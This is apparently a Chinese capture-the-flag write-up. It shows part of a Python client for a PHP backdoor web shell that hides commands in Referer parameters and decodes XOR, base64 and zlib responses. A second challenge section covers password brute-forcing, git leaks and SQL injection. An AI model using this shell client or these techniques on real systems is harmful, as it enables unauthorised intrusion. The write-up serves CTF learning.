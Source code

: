 ```python
    # cut payload, replace into referer
    cutIndex = randint(2,len(payload)-3)
    payloadPieces = (payload[0:cutIndex], payload[cutIndex:], md5tail)
    iPiece = 0
    for i in indexes:
        query[i] = (query[i][0],payloadPieces[iPiece])
        iPiece += 1
    referer = url + '?' + urllib.urlencode(query)
    debugPrint('After insert payload, referer is:')
    debugPrint(query)
    debugPrint(referer)

    # send request
    r = sess.get(url,headers={'Accept-Language':acceptLangStr,'Referer':referer},proxies=proxies)
    html = r.text
    debugPrint(html)

    # process response
    pattern = re.compile(r'<%s>(.*)</%s>' % (xorKey,xorKey))
    output = pattern.findall(html)
    if len(output) == 0:
        print 'Error,  no backdoor response'
        cmd = raw_input('phpshell > ')
        continue
    output = output[0]
    debugPrint(output)
    output = output.decode('base64')
    output = loopXor(output,xorKey)
    output = zlib.decompress(output)
    print output
    cmd = raw_input('phpshell > ')
```

运行程序就可以找到flag了

![技术分享图片](http://image1.bubuko.com/info/202006/20200626204951025497.png)

![技术分享图片](http://image1.bubuko.com/info/202006/20200626204951088969.png)





### comment

#### 考点：爆破，git泄露，代码审计，SQL注入

做web题可以先去扫一下后台，这里我们先放一边去扫描。

进入就是一个留言板，我们随便留言提交之后就会要我们登录。这里的默认其实就是在提示我们需要爆破账号，即用户名为：`zhangwei`，密码是zhangwei***，我们只需要爆破后三位，最后结果是`zhangwei666`
